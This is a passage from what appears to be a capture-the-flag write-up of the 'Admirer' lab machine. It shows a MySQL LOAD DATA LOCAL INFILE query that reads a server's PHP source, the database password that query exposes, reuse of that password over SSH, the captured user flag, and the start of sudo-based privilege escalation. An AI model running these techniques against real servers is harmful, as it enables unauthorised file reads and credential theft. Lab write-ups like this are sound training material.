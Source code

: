 ```SQL
LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE db.pwn3d FIELDS TERMINATED BY "\n";

SELECT * FRO db.pwn3d;
```

From reading the file, I found database credential for the actual database.

```php
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

Using this now I can access to the database. There's nothing inside the database that caught my attention. So instead I tried for password reuse. There are 2 potential users in the system
- w.cooper (cooper)
- waldo

I tried SSH into the server with waldo first using 6 passwords we have so far. The follow credential got access into the server.
- waldo
- &<h5b~yK3F#{PaPB&dA}{H>


# User

```bash
ghost@localhost [03:27:27] [~/Documents/hacking/tj-null-boxes/admirer] [master *]
-> % ssh waldo@10.10.10.187

waldo@admirer:~$ cat user.txt
228c32661c533d74430c61626480feaf
```


# Privilege escalation

There are several users on the system

```bash
waldo@admirer:~$ ls /home
amy  bernadette  howard  leonard  penny  rajesh  waldo
```

So it can be either lateral movement first then privilege escalation or privilege escalation directly and gain root access.

I chose to do the latter first.

```bash
waldo@admirer:~$ sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```
